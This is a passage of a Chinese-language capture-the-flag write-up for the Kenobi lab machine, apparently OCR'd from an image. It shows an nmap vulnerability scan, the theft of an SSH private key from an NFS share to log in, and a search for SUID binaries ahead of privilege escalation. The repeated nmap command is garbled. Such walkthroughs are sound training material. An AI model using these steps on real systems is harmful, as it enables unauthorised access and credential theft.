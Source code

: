 ```nmap -sV -vv --script=vuln TARGET_IP```nmap -sV -vv——script=vuln TARGET_IP ' ' 'nmap -sV -vv——script=vuln TARGET_IP ' ' ' nmap -sV -vv——script=vuln TARGET_IP ' ' '
    drwxr-xr-x 40 root root  4096 Sep  4  2019 lib
    drwxrwsr-x  2 root staff 4096 Apr 12  2016 local
    lrwxrwxrwx  1 root root     9 Sep  4  2019 lock -> /run/lock
    drwxrwxr-x 10 root lxd   4096 Sep  4  2019 log
    drwxrwsr-x  2 root mail  4096 Feb 26  2019 mail
    drwxr-xr-x  2 root root  4096 Feb 26  2019 opt
    lrwxrwxrwx  1 root root     4 Sep  4  2019 run -> /run
    drwxr-xr-x  2 root root  4096 Jan 29  2019 snap
    drwxr-xr-x  5 root root  4096 Sep  4  2019 spool
    drwxrwxrwt  6 root root  4096 Nov 29 14:10 tmp
    drwxr-xr-x  3 root root  4096 Sep  4  2019 www
    ```

+ 获取私匙并登录：

    ```
    root@ip-10-10-156-25:/# cp /mnt/kenobiNFS/tmp/id_rsa .
    root@ip-10-10-156-25:/# chmod  600 id_rsa
    root@ip-10-10-156-25:/# ssh -i id_rsa kenobi@10.10.14.7
    ···
    kenobi@kenobi:~$ cd /home
    kenobi@kenobi:/home$ ls
    kenobi
    kenobi@kenobi:/home$ cd kenobi/
    kenobi@kenobi:~$ ls
    share  user.txt
    ```
## 利用路径变量操作进行权限升级：

![Alt text](/style/image/image-259.png)

+ SUID位可能很危险，一些二进制文件，如passwd，需要以更高的权限运行(因为它在系统上重置您的密码)，但是其他自定义文件可能具有SUID位，可能会导致各种各样的问题。

+ 查找SUID文件：```find / -perm -u=s -type f 2>/dev/null```

    ```
    kenobi@kenobi:~$ find / -perm -u=s -type f 2>/dev/null
    /sbin/mount.nfs
    /usr/lib/policykit-1/polkit-agent-helper-1
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/snapd/snap-confine
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/openssh/ssh-keysign
    /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    /usr/bin/chfn
    /usr/bin/newgidmap
    /usr/bin/pkexec
    /usr/bin/passwd
    /usr/bin/newuidmap
    /usr/bin/gpasswd
    /usr/bin/menu
    /usr/bin/sudo
    /usr/bin/chsh
    /usr/bin/at
    /usr/bin/newgrp
    /bin/umount
    /bin/fusermount
    /bin/mount
    /bin/ping
    /bin/su
    /bin/ping6
    ```

```